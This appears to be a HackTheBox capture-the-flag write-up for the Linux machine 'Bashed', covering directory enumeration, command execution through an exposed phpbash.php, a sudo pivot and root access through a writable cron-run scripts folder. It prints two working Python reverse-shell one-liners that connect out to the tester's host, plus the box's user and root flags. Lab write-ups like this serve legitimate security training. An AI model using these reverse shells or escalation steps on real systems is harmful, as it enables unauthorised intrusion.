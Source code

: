 ```yaml
---
title: HackTheBox - Bashed
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-21
tags: [linux-priv-esc/cronjob ]
img_path: /Writeups/HackTheBox/Linux/Bashed/images/
image:
  src: Pasted%20image%2020220820050244.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
This machine begins w/ a web directory enumeration, finding a directory `/dev` directory containing a file `phpbash.php` that has code execution functionality, allowing us to obtain a low-privilege/`www-data` shell.

User `www-data` has a sudoers entry that allows `www-data` to run any command as `scriptmanager`, allowing us to privilege escalate to `scriptmanager`

Further enumeration of the system is done w/ `linpeas.sh`, discovering a directory `/scripts` that contains a python script that we have `RWX` access to. Also, within last 5 minutes a file `/scripts/test.txt` has been modified, suggesting that there is could be a cronjob running, `pspy` is used to confirm that a cronjob is running that executes all python script in `/scripts` directory every minute as root, and by creating a reverse shell python script in `/scripts` directory, it allowed us to privilege escalate to `root`.

---

| Column       | Details |
| ------------ | ------- |
| Box Name     | Bashed  |
| IP           | 10.10.10.68        |
| Points       | -       |
| Difficulty   | Easy    |
| Creator      |  [Arrexel](https://www.hackthebox.com/home/users/profile/2904)       |
| Release Date |   09-Sep-2022      |


# Recon

## TCP/80 (HTTP)
### FFUF
```
dev                     [Status: 301, Size: 306, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10]
php                     [Status: 301, Size: 306, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10]
:: Progress: [4615/4615] :: Job [1/1] :: 1102 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
- `/dev`


# Initial Foothold

## TCP/80 (HTTP) - Remote Code Execution

1. Proceed to `/dev`, `phpbash.php` found
2. `phpbash.php` allows us to execute commands
	![](Pasted%20image%2020220821004357.png)
3. Invoke a reverse shell
	```
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```
4. `www-data`/low-privilege shell obtained
	![](Pasted%20image%2020220821004455.png)
5. User Flag
	```
	61ecdd09b54362a6470b4fc3ccee53ce
	```
	![](Pasted%20image%2020220821004539.png)

# Privilege Escalation

## Script Manager - Via Sudo
1. Check sudo access for `www-data`
	```
	www-data@bashed:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on bashed:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on bashed:
	    (scriptmanager : scriptmanager) NOPASSWD: ALL
	
	```
	- Able to run any command as `scriptmanager`
2. Obtain `scriptmanager` shell
	```
	sudo -u scriptmanager /bin/bash
	```
![](Pasted%20image%2020220821004942.png)


## Root - Via Cronjob
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220821010328.png)
	- `/scripts` - we have `write` access
	- `/scripts/test.txt` - modified within last 5minutes
		- Cronjob?
	- `/scripts/test.py` - python script that is writable
2. Sniff processes w/ `pspy`
	![](Pasted%20image%2020220821010538.png)
	- `UID 0` - `root`
	- `/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done ` - is executed every minute as `root`
	- all python scripts in `/scripts` are executed every minute
3. Create python reverse shell script
	```
	scriptmanager@bashed:/scripts$ nano /scripts/exploit.py
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
	```
4. Start listener and wait for cronjob to execute to obtain `root` shell
	![](Pasted%20image%2020220821010927.png)
5. Root Flag
	```
	ea8a2ef2a3c75833cd8345e0c866a980
	```
	![](Pasted%20image%2020220821011004.png)

6. View cronjob executed by `root`

	```
	# crontab -l
	* * * * * cd /scripts; for f in *.py; do python "$f"; done
	```
